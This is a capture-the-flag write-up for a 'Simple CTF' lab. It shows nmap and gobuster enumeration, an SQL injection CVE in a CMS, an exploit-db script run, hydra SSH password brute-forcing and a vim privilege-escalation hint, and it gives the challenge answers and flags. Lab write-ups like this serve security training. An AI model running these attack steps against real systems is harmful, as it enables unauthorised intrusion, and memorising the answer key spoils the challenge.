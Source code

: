# Simple CTF writeup
The first task when beggining a CTF is enumeration

## Nmap 
```bash
namp -T4 -sV 10.10.140.110
```
The Nmap flag ```-sV``` is useful as it returns details to do with the versions of services running on the target 

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
```
### How many services are running under port 1000?
We have found 3 ports 21, 80, 2222. 
since 2222 is greater than 1000 the answer is
> 2
### What is running on the higher port?
> ssh

## Port 80: Apache
imade
Let's continue enumeration using Gobuster

## Gobuster
```
gobuster dir -u 10.10.140.110 -w /usr/share/wordlists/dirb/common.txt
```
To find Directories in the web server
```
/.hta                 (Status: 403) [Size: 292]
/.htaccess            (Status: 403) [Size: 297]
/.htpasswd            (Status: 403) [Size: 297]
/index.html           (Status: 200) [Size: 11321]
/robots.txt           (Status: 200) [Size: 929]
/server-status        (Status: 403) [Size: 301]
/simple               (Status: 301) [Size: 315] [--> http://10.10.140.110/simple/]
```
_Useful findings : ``/robots.txt``, ``/simple``_

### /robots.txt
image

### /simple
image
It appears that this site is using content management system(CMS). I scrolled down the page, and was able to find what version of this software is
image
After searching for the version in exploit db ,I found that there is an sql injuction vulnerablity in that version
image
### What's the CVE you're using against the application?
> CVE-2019-9053

### To what kind of vulnerability is the application vulnerable?
The shorthand for sqlInjuction is sqli
> sqli

```python3 46635.py -u http://10.10.117.187/simple/ -w rockyou.txt -c```
but its not working properly since it is built for older version of python
so use hydra to bruteforce username and password
```bash
hydra -l usernames.txt -P best110.txt ssh://10.10.140.110:2222 -t 4
```
### What's the password?
> secret

### Where can you loginwith the details obtained?
> ssh

### What's the user flag?
> G00d j0b, keep up!

### Is there any other user in the home directory? What's its name?
> sunbath

### What can you leverage to spawn a privileged shell?
> vim

### What's the root flag?
> W3ll d0n3. You made it!
